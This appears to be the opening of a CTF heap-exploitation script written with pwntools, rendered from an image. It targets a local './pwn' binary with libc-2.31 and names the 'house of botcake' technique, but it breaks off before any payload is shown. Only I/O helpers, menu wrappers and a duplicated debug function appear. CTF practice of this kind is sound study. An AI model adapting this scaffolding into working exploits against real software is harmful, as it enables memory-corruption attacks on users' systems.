 ```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node1.anna.nssctf.cn',28531)
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def add(idx,size,content):
    sla('>',str(1))
    sla('Index: ',str(idx))
    sla('Size: ',str(size))
    sa('Content: ',content)

def delete(idx):
    sla('>',str(2))
    sla('Index: ',str(idx))

def show(idx):
    sla('>',str(3))
    sla('Index: ',str(idx))

def duan():
    gdb.attach(p)
    pause()
def duan():
    gdb.attach(p)
    pause()

#=================
# libc-2.31
# house of botcake
#=================

for i in range(7):
```